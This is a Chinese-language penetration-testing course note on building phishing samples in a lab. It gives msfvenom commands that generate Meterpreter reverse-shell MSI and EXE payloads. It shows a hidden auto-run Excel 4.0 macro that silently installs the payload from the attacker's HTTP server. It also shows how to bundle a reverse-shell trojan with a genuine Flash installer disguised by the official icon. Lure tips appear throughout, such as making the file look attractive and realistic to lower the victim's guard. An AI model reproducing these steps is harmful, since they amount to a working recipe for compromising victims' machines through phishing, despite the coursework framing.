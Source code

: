 ```yaml
---
title: 实验五--钓鱼技术
category: 学习笔记
tags: [网络渗透测试技术、钓鱼、木马]
published: 2025/04/23 11:53:14
permalink: /course/2wqhr1z8/
---
```


## 实验目的

1、学会制作简单的钓鱼样本并理解钓鱼样本木马的工作原理.

## 实验任务

1、制作恶意的excel文件

2、将正常的软件和恶意木马进行捆绑打包

## 实验步骤

### excel宏

输入下列命令后，即可在目录下看到生成的msi

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.100.129 lport=1234 -f msi -o diaoyu.msi
```

![image-20240714204850148](./images/202407142110164.png)

然后启动msf，使用multi/handler模块，并设置好对应的payload，然后输入run，进行监听

![image-20240714204924242](./images/202407142110165.png)

然后启动python的http服务，是为了后续制作宏的时候提供网络服务

![image-20240714204934617](./images/202407142110076.png)

在自己的电脑上创建一个excel表格（实际情况下，文件名要符合实际，有吸引力，里面的内容最好也是真实的，这里因为是实验环境，所以数据都是捏造的)

![image-20240714204948779](./images/202407142110166.png) 

然后插入宏表

![image-20240714205003681](./images/202407142110167.png)

![image-20240714205014322](./images/202407142110168.png)

打开浏览器输入kali的ip地址，看到下图后右键diaoyu.msi，选择复制链接地址

![image-20240714205024076](./images/202407142110169.png)

 然后在表格第一行输入

```bash
 =EXEC("msiexec /q /i http://192.168.100.129/shell.msi")
```

 第二行输入

```bash
 =HALT()
```

然后选择A1的框，把A1改成Auto_Open（让excel打开时自动执行宏）然后回车即可

![image-20240714205100492](./images/202407142110170.png)

 然后就是隐藏宏，右键“宏1”，然后选择隐藏

![image-20240714205108651](./images/202407142110171.png)

 然后保存为启用宏的文件，点击保存类型，选择里面的启用宏的工作簿即可

![image-20240714205113197](./images/202407142110172.png)

 然后把文件传到靶机上，我这里以Windows7为例
 在靶机上点开文件并启用内容

![image-20240714205125500](./images/202407142110173.png)

 然后切回kali即可看到成功连接上，输入shell即可获得相应的shell

![image-20240714205131436](./images/202407142110174.png)

### 常规软件捆绑远控木马进行钓鱼

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.133 LPORT=7777 -f exe -o flash.exe
```

因为是msf直接生成的没有做免杀，所以拷到本地的时候记得关闭安全软件，不然会报毒

然后还要去flash官网下载一个真正的，图片右一

![image-20240714205158278](./images/202407142110175.png)

把这两个文件按下列图片进行压缩打包，为了降低受害者的心里防备，最好是可以把打包好的应用的图标改成官方的图标。

![image-20240714205250711](./images/202407142110176.png)

![image-20240714205254262](./images/202407142110177.png)

![image-20240714205300874](./images/202407142110178.png)

把制作好的恶意文件放到靶机上运行即可成功上线

![image-20240714205305641](./images/202407142110179.png)